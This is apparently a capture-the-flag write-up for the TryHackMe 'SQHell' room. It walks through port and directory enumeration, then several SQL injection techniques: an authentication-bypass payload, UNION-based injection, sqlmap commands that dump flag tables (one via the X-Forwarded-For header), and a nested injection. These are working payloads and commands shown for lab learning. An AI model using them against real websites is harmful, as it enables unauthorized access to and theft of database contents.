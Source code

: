 # SQHell

Link to the room: https://tryhackme.com/room/sqhell

## Let's go!

Setting IP variable

```
export IP=10.10.68.254
```

## Enumeration

### Nmap scan 

```
Port 22 is open
Port 80 is open
```

Nothing out of the ordinary; let's dig deeper.

```
nmap -p22,80 -sV -sC -Pn -T4 -oA 10.10.68.254 10.10.68.254
```

```
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Home

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
The ssh isn't useful without the credentials, so let's focus on the webserver for now. We'll run a gobuster scan while we visit the page.

### Gobuster 

```
/login                (Status: 200) [Size: 1763]
/post                 (Status: 200) [Size: 21]  
/register             (Status: 200) [Size: 2593]
/user                 (Status: 200) [Size: 21]  
```

## Visiting the webserver

![website](webserver_landing_page.PNG)

### Login page

![login page](login_page.PNG)

I tried the default credentials but to no avail. As the room revolves around SQL injection, let's fire up burp suite and send the request to the repeater to try some SQL injection for authorization bypass manually.

```
POST /login HTTP/1.1
Host: 10.10.68.254
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 45
Origin: http://10.10.68.254
Connection: close
Referer: http://10.10.68.254/login
Upgrade-Insecure-Requests: 1

username=admin'+or+'1'%3d'1&password=password
```

On the third try, managed to bypass the login and get the flag (you'll see it in the response). Don't forget to URL encode the request!
You can find the list of the different commands here: https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/.

### Posts page

Visiting /post, we're greeted with `Missing parameter: id`. This shows that the page requires an id parameter. Playing around with it we can see that we're able to mess around with the page and it is indeed vulnerable to sql injection!

```
http://10.10.68.254/post?id=-1 union select 1,2,user(),4
```

![post](post_id_user.PNG)

Let's fire up sqlmap and beat it up. A good practice is to intercept the request using burp suite and then saving it. I saved the request as sqhell_post.request.

**Sqlmap for /post**

After several tries dumping the database and then tables, the final command is:

```
sqlmap -r sqhell_post.request --dbms mysql -D sqhell_5 -T flag --dump 
```

### Register page

This one is tricky; first, it won't let you register a new user. However, the fact that it takes in data leaves gives us some room to work in. Good thing our burp suite was running in the background, and we were able to identify the user-check parameter. 

```
http://10.10.68.254/register/user-check?username=a
```

Let's save the request as sqhell_register.request and can try sqlmap on this.

**Sqlmap for /register**

```
sqlmap -r sqhell_register.request --dbms mysql -D sqhell_3 -T flag --dump
```

### Terms and Conditions page

Before moving on to the users, let's take a look at the terms and conditions page, there we'll find a massive hint which states:

```
iii: We log your IP address for analytics purposes
```

This means that the site identifies the IP address of the user connecting to their web server through an HTTP header. X-Forwarded-For is an HTTP header field that is considered as a de facto standard for this purpose. For this, our sqlmap command will differ slightly as we'll be using the URL and header switch for this task.

**Sqlmap for /terms-and-conditions**

```
sqlmap --dbms mysql --headers="X-forwarded-for:1*" -u http://10.10.68.254/ -D sqhell_1 -T flag --dump
```

### User login

This one, by far, was the most difficult one to came across. At first sight, it seems like any other SQL injection inside the `user?id=` parameter; however, after beating it up several times with sqlmap, I couldn't retrieve the flag. Good thing the ever so generous Mr Adam Langley gave us a following hint: *Well, dreams, they feel real while we're in them right?* 

Now, this is a quote from the movie inception. As any normal (arguable, but okay) pentester would do, we can google the term sql injection inception! This brings us to an article that refers to this notion of "inception" injection simply as Nested SQL injection. This gives us an idea of what to do next. Let's fire up burp and try Nested attack on the webserver.

Trying the following commands gives us an idea of where to start.

```
http://10.10.68.254/user?id=2 union all select 1,2,3 from users#
```

![user sql injection](sqhell_user_injection.PNG)

This shows that we were successfully able to overwrite the database. Let's nest another SQL injection inside it and try to retrieve the flag.

```
http://10.10.68.254/user?id=2 union all select "1 union select 1,flag,3,4 from flag-- -",1,2 from users#
```

![sql user flag](sql_user_flag_redacted.png)

Success, we were finally able to retrieve the flag!
